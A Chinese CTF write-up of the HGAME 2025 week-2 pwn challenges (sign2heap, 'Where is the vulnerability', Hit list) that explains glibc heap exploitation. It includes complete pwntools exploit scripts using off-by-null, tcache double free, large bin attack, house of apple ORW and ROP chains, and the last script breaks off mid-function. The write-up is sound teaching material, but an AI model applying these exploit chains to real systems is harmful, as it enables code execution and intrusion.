# hgame2025 week2 pwn全题解-先知社区

> **来源**: https://xz.aliyun.com/news/16883  
> **文章ID**: 16883

---

## pwn

### sign2heap

此题保护全开，libc版本为2.27的堆题，libc2.27已经开启了tcache bin。

使用**patchelf**所给的**libc-2.27.so**文件和**ld.so**文件链接到程序上：

```
patchelf --replace-needed libc.so.6 ./libc-2.27.so ./vuln
```

```
patchelf --set-interpreter ./ld-2.27.so ./vuln
```

然后我们简单分析下程序，这是一道菜单堆题。



**功能一**为创建堆块， 创建的堆块总数不能超过16个，堆块大小不能超过0xff，然后read我们创建的堆块大小的内容，再将最后一字节设置为“�”，漏洞点就在这里，这里可以覆盖到下一个堆块的size位的最后一字节，将其覆盖为“�”，也就是我们所说的off by null漏洞：



我们先根据创建堆块功能写好相关函数：

```
def add(index,size,context='hello'):
    io.sendafter('Your choice:',p16(1))
    io.sendlineafter('Index: ',str(index))
    io.sendlineafter('Size: ',str(size))
    io.sendafter('Content: ',context)
```

**功能二**为删除堆块（没错，就是删除堆块，那个menu函数写反了。。。），这个就是正常的输入堆块下标，然后释放堆块并将指针清零，没有漏洞，也先写好相关释放堆块的函数：



```
def free(index):
    io.sendafter('Your choice:',p16(2))
    io.sendlineafter('Index: ',str(index))
```

**功能三**就是打印堆块内容了，将对应下标堆块内容打印出来，相关函数如下：



```
def show(index):
    io.sendafter('Your choice:',p16(3))
    io.sendlineafter('Index: ',str(index))
```

所以本题的漏洞点就为创建堆块的off by null了。

我们的思路如下：

先创建一个0x80大小的堆块，一个0x18大小的堆块来进行off\_by\_null，一个0xf0大小的堆块，然后分别创建7个0x80大小的堆块并释放填充满tcache\_bin链，和7个0xf0大小的堆块填充满tcache\_bin链：

```
add(0,0x80) 
add(1,0x18) 
add(2,0xf0) 
for i in range(7):
    add(i+3,0x80)

for i in range(7):
    free(i+3)
    add(i+3,0xf0)
    
for i in range(7):
    free(i+3)
```

此时0x90和0x100的tcache bin链已填充完成：



然后释放堆块一（0x80），并利用堆块二（0x18）去修改堆块三（0xf0）的pre\_size和size位：

```
free(0)
free(1)
add(1,0x18,p64(0)*2+p64(0xb0))
```


然后释放堆块三，此时堆块三就会和堆块一堆块二合并：



申请8个0x80的大小堆块，此时main\_arena会落入堆块一中，show堆块一后就可以泄露libc地址了：

```
for i in range(8):
    add(i+3,0x80)
show(1)
libc_base=u64(io.recv(6).ljust(8,b'\x00'))-0x3ebca0
success('libc_base:'+hex(libc_base))
```

申请0x10大小的堆块，此时有两个相同地址的堆块，释放后再申请回来修改其fd指向malloc\_hook，利用double free将其修改为one\_gadget即可。

最终exp如下：

```
from pwn import *
context(log_level='debug',arch='amd64',os='linux')
io=process('./vuln')
io=remote('node1.hgame.vidar.club',32265)
elf=ELF('./vuln')
libc=ELF('./libc-2.27.so')


chunk_addr=0x202060
def add(index,size,context='hello'):
    io.sendafter('Your choice:',p16(1))
    io.sendlineafter('Index: ',str(index))
    io.sendlineafter('Size: ',str(size))
    io.sendafter('Content: ',context)

def free(index):
    io.sendafter('Your choice:',p16(2))
    io.sendlineafter('Index: ',str(index))

def show(index):
    io.sendafter('Your choice:',p16(3))
    io.sendlineafter('Index: ',str(index))

add(0,0x80) 
add(1,0x18)
add(2,0xf0) 
for i in range(7):
    add(i+3,0x80)

for i in range(7):
    free(i+3)
    add(i+3,0xf0)

for i in range(7):
    free(i+3)

free(0)
free(1)
add(1,0x18,p64(0)*2+p64(0xb0))
free(2)

for i in range(8):
    add(i+3,0x80)
show(1)
libc_base=u64(io.recv(6).ljust(8,b'\x00'))-0x3ebca0
success('libc_base:'+hex(libc_base))

malloc_hook=libc_base+libc.symbols['__malloc_hook']
realloc=libc_base+libc.symbols['realloc']
gadget=[0x4f2a5,0x4f302,0x10a2fc]
one_gadget=libc_base+gadget[2]

add(0,0x70) # 也是堆块一
for i in range(8):
    free(i+3)
for i in range(9):
    add(i+3,0x70)
for i in range(8):
    free(i+3)
free(0)
free(11)
free(1)
for i in range(7):
    add(i+3,0x70)
add(0,0x70,p64(malloc_hook-0x8))
add(1,0x70)
add(2,0x70)
add(15,0x70,p64(one_gadget)+p64(realloc+5))

#gdb.attach(io)
#pause()
io.sendafter('Your choice:',p16(1))
io.sendlineafter('Index: ',str(14))
io.sendlineafter('Size: ',str(0x20))
io.interactive()
```



### **Where is the vulnerability**

本题没开canary，其余保护全开，libc版本为**2.39**，malloc\_hook和free\_hook已不可用，除了常规的libc文件和ld文件外，还给了一个libhgame.so文件，这个才是后面我们要分析的文件。

我们照常先把给的文件链接到程序上去：

```
patchelf --replace-needed libc.so.6 ./libc.so.6 ./vuln
```

```
patchelf --set-interpreter ./ld-linux-x86-64.so.2 ./vuln
```

```
patchelf --replace-needed libhgame.so ./libhgame.so ./vuln
```

同时要记得把这几份文件都加上可执行权限才能运行程序。

接下来我们开始分析程序，ida打开vuln文件，是一道菜单堆题，可以看到里面的init函数、menu等函数都不在这里面，想到给了另一个libhgame.so文件，所以我们用ida打开libhgame.so文件，可以发现函数定义在这里面：



这里最好每个函数都看一遍，不要先入为主认为init函数没什么特别的，里面什么都没写，不然可能就会不知道它原来在里面开了沙箱：





禁用了execve，需要使用orw获取flag。

menu函数就是正常的打印菜单出来。

**功能一**为创建堆块，最多只能创建16个堆块，堆块大小范围为0x500 - 0x900，这是unsorted bin的大小范围，显然要我们打large bin attack了，我们先根据对应功能写好创建堆块的函数：

```
def add(index,size):
    io.sendlineafter('>','1')
    io.sendlineafter('Index: ',str(index))
    io.sendlineafter('Size: ',str(size))
```



**功能二**为释放堆块，输入下标后free掉对应下标的堆块，此处我们发现free堆块后没有将指针清空，典型的use after free漏洞，也是先写好相应函数：

```
def free(index):
    io.sendlineafter('>','2')
    io.sendlineafter('Index: ',str(index))
```



**功能三**和**功能四**则为正常的修改对应下标的堆块内容和打印对应下标堆块内容，先写好相关函数：

```
def edit(index,context):
    io.sendlineafter('>','3')
    io.sendlineafter('Index: ',str(index))
    io.sendafter('Content: ',context)
    
def show(index):
    io.sendlineafter('>','4')
    io.sendlineafter('Index: ',str(index))
```

有个use after free漏洞，只能创建unsorted bin，同时是高版本libc，所以我们的思路为利用large bin attack打house of apple

我们先申请一个0x518大小的堆块一，然后创建一个堆块二防止合并，再申请一个0x508大小的堆块三为后续large bin attack做准备和一个堆块四防止合并，然后释放堆块一进入unsorted bin链，申请大小为0x530的堆块四使堆块一进入large bin链中，利用use after free泄露libc地址和heap地址，然后释放堆块三使其进入unsorted bin链中，：

```
add(1,0x518) # 1
add(2,0x500)
add(3,0x508) # 3
add(4,0x500)
free(1)
add(4,0x528) # 4    
show(1)
chunk1_fd=u64(io.recv(6).ljust(8,b'\x00'))
success('chunk1_fd:'+hex(chunk1_fd))
libc_base=chunk1_fd-0x203f50
success('libc_base:'+hex(libc_base))
edit(1,b'a'*0x10)
show(1)
io.recvuntil('a'*0x10)
heap=u64(io.recv(6).ljust(8,b'\x00'))
success('heap:'+hex(heap))
heap_base=heap-0x290
edit(1,p64(chunk1_fd)*2)
free(3)
```

然后利用use after free漏洞将堆块一的`bk_nextsize`伪造为我们想要写入的`target地址-0x20`，我们这里选择的是写入\_IO\_list\_all，后面可以打house of apple，然后再申请0x528大小的堆块五，此时将触发large bin attack并将堆块三的地址写入target中，也就是 \_IO\_list\_all中：

```
io_list_all=libc_base+libc.symbols['_IO_list_all']
edit(1,p64(chunk1_fd)*2+p64(heap)+p64(io_list_all-0x20))
add(5,0x528)
```

触发large bin attack前：



触发large bin attack后：



最后使用house of apple打orw就可以了，最终exp如下：

```
from pwn import *
context(log_level='debug',arch='amd64',os='linux')
io=process('./vuln')
io=remote('node1.hgame.vidar.club',32697)
elf=ELF('./vuln')
libc=ELF('./libc.so.6')

def add(index,size):
    io.sendlineafter('>','1')
    io.sendlineafter('Index: ',str(index))
    io.sendlineafter('Size: ',str(size))

def edit(index,context):
    io.sendlineafter('>','3')
    io.sendlineafter('Index: ',str(index))
    io.sendafter('Content: ',context)

def show(index):
    io.sendlineafter('>','4')
    io.sendlineafter('Index: ',str(index))

def free(index):
    io.sendlineafter('>','2')
    io.sendlineafter('Index: ',str(index))

add(1,0x518) # 1
add(2,0x500)
add(3,0x508) # 3
add(4,0x500)
free(1)
add(4,0x528) # 4    
show(1)
chunk1_fd=u64(io.recv(6).ljust(8,b'\x00'))
success('chunk1_fd:'+hex(chunk1_fd))
libc_base=chunk1_fd-0x203f50
success('libc_base:'+hex(libc_base))
edit(1,b'a'*0x10)
show(1)
io.recvuntil('a'*0x10)
heap=u64(io.recv(6).ljust(8,b'\x00'))
success('heap:'+hex(heap))
heap_base=heap-0x290
edit(1,p64(chunk1_fd)*2)
free(3)

io_list_all=libc_base+libc.symbols['_IO_list_all']
edit(1,p64(chunk1_fd)*2+p64(heap)+p64(io_list_all-0x20))
add(5,0x528)

rdi=0x000000000010f75b+libc_base
rsi=0x0000000000110a4d+libc_base
leave_ret=0x00000000000299d2+libc_base
ret=0x000000000002882f+libc_base
add_ret=0x000000000010ecaf+libc_base
rax=0x00000000000dd237+libc_base
syscall=0x11ba5f+libc_base
open_addr=libc_base+libc.symbols['open']
read_addr=libc_base+libc.symbols['read']
write_addr=libc_base+libc.symbols['write']
_IO_wfile_jumps=libc_base+libc.symbols['_IO_wfile_jumps']
gadget1=libc_base+0x176f0e
gadget3=libc_base+libc.symbols['setcontext']+61

rop=p64(ret)*3
rop+=p64(rdi)
rop+=p64(heap_base+0x17b8)
rop+=p64(rsi)
rop+=p64(0)
rop+=p64(rax)+p64(2)
rop+=p64(syscall)
rop+=p64(rdi)
rop+=p64(3)
rop+=p64(rsi)
rop+=p64(heap_base+0x2b40)
rop+=p64(read_addr)
rop+=p64(rdi)
rop+=p64(1)
rop+=p64(rsi)
rop+=p64(heap_base+0x2b40)
rop+=p64(write_addr)

pd1=p64(0)*22+p64(heap_base+0x17e0-0x20)*3+b"/flag\x00\x00\x00"+p64(0)*2+p64(heap_base+0x1770)+p64(gadget1)+p64(gadget3)+p64(0x100)*(0xf)+p64(heap_base+0x1868)
pd1+=rop

pd2=p64(~(2 | 0x8 | 0x800)+(1<<64))+p64(0)*3+p64(0)+p64(1)+p64(0)+p64(heap_base+0x17e0-0x20)+p64(0)+p64(heap_base+0x538-0x20)+p64(0)*7+p64(heap_base+0x16f0)+p64(0)*2+p64(heap_base+0x16f0)+p64(0)*6+p64(_IO_wfile_jumps)

pd=p64(libc_base+0x204563)*2+p64(io_list_all)+p64(io_list_all-0x20)+p64(0)*7+p64(heap_base+0x7c0)+p64(0)*3+p64(heap_base+0x7c0)+p64(0)*10

edit(3,pd)
edit(2,pd2)
edit(4,pd1)

#gdb.attach(io)
#pause()
io.sendline('5')
io.interactive()
```



### **Hit list**

libc版本为2.35，保护全开，是一道菜单堆题。

我们简单分析下程序，该程序的功能类似是管理单链表，记录了表头、表尾以及链表长度。

主要有以下功能：

**功能一**为创建节点，此功能会创建两个堆块，我把第一个自动创建的堆块叫做 **“结构堆块”**，第二个我们自己控制的堆块叫做 **“内容堆块”**，“结构堆块”会存放以下数据：当前节点的下标；下一个“结构堆块”的地址；number值；“内容堆块”的地址。在创建内容堆块时，第一个八字节是输入的name；后面就是我们输入的内容，但里面有个gift函数，当堆块创建失败的时候就会跳进gift函数，当我们创建-9大小的堆块时就会跳进该函数，gift函数是仅一次任意地址的free：



我们先写好相关函数方便调用：

```
def add(number,name,size,context):
    io.sendlineafter('>','1')
    io.sendlineafter('>',str(number))
    io.sendlineafter('>',name)
    io.sendlineafter('>',str(size))
    io.sendafter('>',context)

def gift(number,name,addr):
    io.sendlineafter('>','1')
    io.sendlineafter('>',str(number))
    io.sendlineafter('>',name)
    io.sendlineafter('>',str(-9))
    io.sendlineafter('>',addr)
```

**功能二**为删除相应节点，根据“结构堆块”去判断下一个节点是哪一个，也先写好相应函数方便调用：

```
def free(index):
    io.sendlineafter('>','2')
    io.sendlineafter('>',str(index))
```

**功能三**为修改相应节点内容，直接将该节点free后再根据输入的大小申请堆块，先写好相关函数方便调用：

```
def edit(index,number,name,size,context):
    io.sendlineafter('>','3')
    io.sendlineafter('>',str(index))
    io.sendlineafter('>',str(number))
    io.sendlineafter('>',name)
    io.sendlineafter('>',str(size))
    io.sendafter('>',context)
```

**功能四**即为打印堆块内容，先写好相关函数方便调用：

```
def show(index):
    io.sendlineafter('>','4')
    io.sendlineafter('>',str(index))
```

我们有一次任意地址free的机会，但我们需要先泄露相关地址才能free，该如何泄露地址呢，我们的“结构堆块”+0x18处存放的是“内容堆块”的地址，如果我们将此“结构堆块”释放后申请回来做“内容堆块”，那我们就可以泄露heap地址了：

```
for i in range(3):
    add(123,'aaaa',0x18,'aaaa') # 0 1 2
free(0)
edit(1,12,'aa',0x40,'aa') 
add(123,'aaa',0x18,'a'*0x10) # 2
show(2)
io.recvuntil('a'*0x10)
heap_base=u64(io.recv(6).ljust(8,b'\x00'))-0x2d0
success('heap_base:'+hex(heap_base))
```

然后我们需要一个libc地址，当堆块进入unsorted bin时fd和bk正是libc上的地址，因此我们释放八个unsorted bin大小的堆块后申请回来就能泄露libc地址：

```
for i in range(9):
    add(12,'bbbb',0x300,'bbbb')
for i in range(8):
    free(8+2-i)
add(12,'ddd',0x40,'d') # 4

show(4)
io.recvuntil('Information: ')
libc_base=u64(io.recv(6).ljust(8,b'\x00'))-0x21af64
success('libc_base:'+hex(libc_base))
```

有了libc地址和堆块地址，我们就要利用那个gift函数去释放后“获取”一个堆块了，因为只有一次机会，因此我们决定将tcache\_perthread（即heap最开始的地址的那个堆块，里面存在tcache bin的信息）释放掉并申请回来，申请回来后我们再进行edit伪造释放environ，申请回来就能获取stack地址：



再将程序某个函数返回时的stack地址写进tcache\_perthread“释放”掉再申请回来写入rop链就可以get shell了：



完整的exp如下：

```
from pwn import *
context(log_level='debug',arch='amd64',os='linux')
io=process('./vuln')
io=remote('node1.hgame.vidar.club',32715)
elf=ELF('./vuln')
libc=ELF('./libc.so.6')

def add(number,name,size,context):
    io.sendlineafter('>','1')
    io.sendlineafter('>',str(number))
    io.sendlineafter('>',name)
    io.sendlineafter('>',str(size))
    io.sendafter('>',context)

def gift(number,name,addr):
    io.sendlineafter('>','1')
    io.sendlineafter('>',str(number))
    io.sendlineafter('>',name)
    io.sendlineafter('>',str(-9))
    io.sendlineafter('>',addr)

def edit(index,number,name,size,context):
    io.sendlineafter('>','3')
    io.sendlineafter('>',str(index))
